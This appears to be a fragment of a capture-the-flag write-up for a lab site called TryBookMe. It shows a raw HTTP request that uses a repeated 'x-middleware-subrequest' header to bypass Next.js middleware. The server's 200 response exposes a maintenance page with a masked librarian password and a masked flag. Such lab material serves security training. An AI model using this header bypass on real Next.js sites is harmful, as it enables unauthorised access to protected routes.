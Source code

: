 <p>

- This API is currently under maintenance. Please use the library portal to add new books using librarian:***********</p>

<br>

```bash
GET /customapi HTTP/1.1
Host: 127.0.0.1:5000
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

```bash
HTTP/1.1 200 OK
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Url, Accept-Encoding
x-nextjs-cache: HIT
X-Powered-By: Next.js
Cache-Control: s-maxage=31536000, stale-while-revalidate
ETag: "h7edg8a4eb5mg"
Content-Type: text/html; charset=utf-8
Content-Length: 7288
Date: Sat, 06 Sep 2025 xx:xx:xx GMT
Connection: keep-alive
Keep-Alive: timeout=5

<!DOCTYPE html><html lang="en"><head>..."description" content="API Service for TryBookMe"/><script src="/_next/static/chunks/polyfills-c67a75d1b6f99dc8.js" crossorigin="" noModule=""></script></head><body><main style="max-width:1000px;margin:0 auto;padding:20px"><header style="margin-bottom:20px"><h1 style="font-size:24px;font-weight:bold">TryBookMe</h1><nav style="margin-top:10px"><ul style="display:flex;gap:16px"><li><a href="/" style="color:blue;text-decoration:underline">Home</a></li><li><a href="/customapi" style="color:blue;text-decoration:underline">API</a></li></ul></nav></header><div style="display:flex;flex-direction:column;align-items:center;justify-content:center;min-height:100vh;background-color:#f33;color:white;padding:2rem"><h1 style="font-size:3rem;margin-bottom:2rem">Maintenance!</h1><div style="background-color:rgba(0,0,0,0.2);padding:2rem;border-radius:8px;max-width:800px;text-align:center"><p style="font-size:1.5rem;margin-bottom:1rem">This API is currently under maintenance. Please use the library portal to add new books using librarian:***********</p><p style="font-size:1.25rem">First flag is <!-- -->THM{********************************}</p>...</script></body></html>
```

<br>

```bash
GET /customapi HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://127.0.0.1:5000/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
